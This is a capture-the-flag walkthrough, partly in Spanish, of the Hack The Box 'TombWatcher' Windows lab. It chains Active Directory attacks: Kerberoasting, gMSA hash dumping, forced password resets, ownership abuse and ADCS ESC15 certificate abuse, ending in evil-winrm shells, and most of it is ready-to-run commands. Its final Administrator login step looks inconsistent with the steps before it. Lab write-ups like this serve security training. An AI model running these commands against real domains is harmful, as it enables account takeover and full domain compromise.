








---


Machine Information

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: `henry : H3nry_987TGV!`

---

- Sincronizamos con el Dominio/IP. 
- Recolectamos los datos del dominio con BloodHound usando al usuario facilitado por HTB:



- Como podemos observar en la imagen inferior perteneciente a BloodHound, HENRY@TOMBWATCHER.HTB posee el privilegio `WriteSPN` al usuario ALFRED@TOMBWATCHER.HTB.




- Adquirimos el hash TGS de Alfred:

```
python3 targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!'
```


- lo craqueamos.

- El usuario ALFRED@TOMBWATCHER.HTB puede autoañadirse al grupo INFRASTRUCTURE@TOMBWATCHER.HTB.

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u 'ALFRED' -p 'basketball' add groupMember INFRASTRUCTURE ALFRED
```

- ANSIBLE_DEV$@TOMBWATCHER.HTB es una cuenta de servicio administrada de grupo (gMSA). El grupo INFRASTRUCTURE@TOMBWATCHER.HTB puede adquirir el NTLM del gMSA ANSIBLE_DEV$@TOMBWATCHER.HTB.

```
python3 gMSADumper.py -u Alfred -p <passwd> -d tombwatcher.htb
```





-  ANSIBLE_DEV$@TOMBWATCHER.HTB posee el privilegio de modificar la passwd de SAM@TOMBWATCHER.HTB sin conocer la actual.

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u 'ansible_dev$' -p '<NT hash>' set password SAM 'P@ssw0rd123!'
```




- El usuario SAM@TOMBWATCHER.HTB tiene el privilegio de modificar el dueño de  JOHN@TOMBWATCHER.HTB.

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'P@ssw0rd123!' set owner JOHN 'SAM'
```
```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'P@ssw0rd123!' add genericAll JOHN 'SAM'
```
```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u SAM -p 'P@ssw0rd123!' set password JOHN 'P@ssw0rd123!'
```
```
evil-winrm -i dc01.tombwatcher.htb -u john -p 'P@ssw0rd123!'
```



- `user.txt` conseguida.
# Privesc

- check the certificate templates with certipy, you will see that user with rid 1111 has Enrollment Rights/Write Property Enroll on the WebServer template, also enum the deleted users you will see that user:

```
Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties objectSid, lastKnownParent, ObjectGUID | Select-Object Name, ObjectGUID, objectSid, lastKnownParent | Format-List
```


- The user JOHN@TOMBWATCHER.HTB has GenericAll privileges to the OU ADCS@TOMBWATCHER.HTB. ( we can restore it back to ADCS and also change pass):


```
 Restore-ADObject -Identity '938182c3-bf0b-410a-9aaa-45c8e1a02ebf'
```

```
bloodyAD --host dc01.tombwatcher.htb -d tombwatcher.htb -u JOHN -p 'P@ssw0rd123!' set password cert_admin 'P@ssw0rd123!'
```

- run certipy again this time with cert_admin, you will see the ESC15, exploit that:

```
certipy find -u 'cert_admin' -p 'P@ssw0rd123!' -dc-ip 10.10.11.72 -vulnerable -stdout
```




```
certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -application-policies 'Certificate Request Agent'  
```

```
certipy req -u 'cert_admin@tombwatcher.htb' -p 'P@ssw0rd123!' -target dc01.tombwatcher.htb -ca 'tombwatcher-CA-1' -template 'WebServer' -application-policies 'Certificate Request Agent'
```

```
certipy req -target tombwatcher.htb -dc-ip 10.10.11.72 -u 'cert_admin' -p 'P@ssw0rd123!' -ca tombwatcher-CA-1 -template User -pfx 'cert_admin.pfx' -on-behalf-of 'tombwatcher\Administrator'
```

```
evil-winrm -i dc01.tombwatcher.htb -u Administrator -p P@ssw0rd123!
```

---



---